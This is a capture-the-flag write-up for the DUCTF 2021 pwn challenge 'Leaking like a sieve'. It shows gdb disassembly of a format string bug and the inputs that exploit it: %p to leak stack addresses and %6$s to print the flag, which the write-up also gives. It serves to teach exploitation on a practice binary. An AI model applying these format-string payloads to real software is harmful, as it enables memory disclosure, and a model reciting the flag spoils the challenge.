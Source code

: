 ## Intro
**Leaking like a sieve** was a pwn challenge at DUCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that NX and PIE are enabled for the binary. Following the `ltrace` I learned the flow of the program and found no potential
buffer overflow vulnerability at first sight. I loaded the program into `gdb` and disassembled the `main` function, which was the only function of interest here.

```
...
0x0000000000001201 <+41>:	lea    rsi,[rip+0xe00]        # 0x2008  "r"
0x0000000000001208 <+48>:	lea    rdi,[rip+0xdfb]        # 0x200a  "./flag.txt"
0x000000000000120f <+55>:	call   0x1080 <fopen@plt>
...
0x000000000000125d <+133>:	lea    rax,[rbp-0x50]
0x0000000000001261 <+137>:	mov    esi,0x20
0x0000000000001266 <+142>:	mov    rdi,rax
0x0000000000001269 <+145>:	call   0x1070 <fgets@plt>
0x000000000000126e <+150>:	lea    rdi,[rip+0xe1c]        # 0x2091  "\nHello there, "
0x0000000000001275 <+157>:	mov    eax,0x0
0x000000000000127a <+162>:	call   0x1060 <printf@plt>
0x000000000000127f <+167>:	lea    rax,[rbp-0x50]
0x0000000000001283 <+171>:	mov    rdi,rax
0x0000000000001286 <+174>:	mov    eax,0x0
0x000000000000128b <+179>:	call   0x1060 <printf@plt>
...
```

We can see here that the program reads in the flag from a file somewhere in the beginning. Later, it asks the user for input, which gets stored at `rbp-0x50`,
and prints it out again using `printf`. Using this input as the first and only parameter to `printf` a format string vulnerability
is introduced. We can verify this by inputting some format strings like `%p %p %p %p %p %p %p %p` and see that memory addresses from the programs stack get leaked.

```
(gdb) r
...
What is your name?
%p %p %p %p %p %p %p %p

Hello there, 0x7fffffffbd30 (nil) 0x7ffff7ed6387 0x7fffffffde60 (nil) 0x7fffffffde80 0x5555555592a0 0x7025207025207025

What is your name?
```

## Solution
As it happens the flag is the sixth address stored in the stack so we can print that out by inputting `%6$s`. This format string will interpret the sixth
address on the stack as a string and print it out. Et voila!

```
(gdb) r
...
What is your name?
%6$s

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```

See [exploit](./exploit.py) for an automation of the exploit in python.

> DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
